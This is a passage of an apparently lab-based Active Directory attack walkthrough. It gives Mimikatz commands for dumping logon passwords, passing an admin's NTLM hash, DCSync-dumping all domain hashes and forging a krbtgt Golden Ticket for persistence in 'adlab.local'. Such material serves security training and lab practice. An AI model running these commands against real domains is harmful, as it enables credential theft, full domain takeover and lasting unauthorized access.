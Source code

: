 ### 16. Copy and Execute Mimikatz in Temp Directory
- **First terminal**: `cd temp`
- **Second terminal**: Copy Mimikatz files:
```bash
copy {mimikatz_path_to_x64_folder}\*.* .
```
- **First terminal**: Execute **Mimikatz** when the copy is complete.

### 17. Now that you have the mimikatz on the admin machine make sure to use it as following
- just like before we start with dumping the hashes and getting the debug privilege
  ```bash
  privilege::debug
  sekurlsa::logonpasswords
  ```
- Find the admin's hash and use that to pass the hash into his account (from your own machine of course)
- your command should now be targeting the dc not your local domain
- example:
```bash
sekurlsa::pth /user:domad /domain:adlab.local /ntlm:cff48581d56085119bddffacfae51aeb /run:cmd.exe
```

- from there you can launch mimikatz again and continue to dump the credintials

## Persistence with Golden Ticket Attack

### 1. Dump Domain Controller Hashes
Dump credentials from the Domain Controller:
```bash
lsadump::dcsync /domain:adlab.local /all /csv
```

### 2. Create a Golden Ticket
Use the **krbtgt** hash and your system's **SID** to create a Kerberos golden ticket:
```bash
kerberos::golden /domain:adlab.local /sid:S-1-5-21-2477219160-184884731-442278832 /rc4:[krbtgt_hash] /user:fuckoff /id:500 /ptt
```

### 3. Open a Miscellaneous Command Prompt
```bash
misc::cmd
```

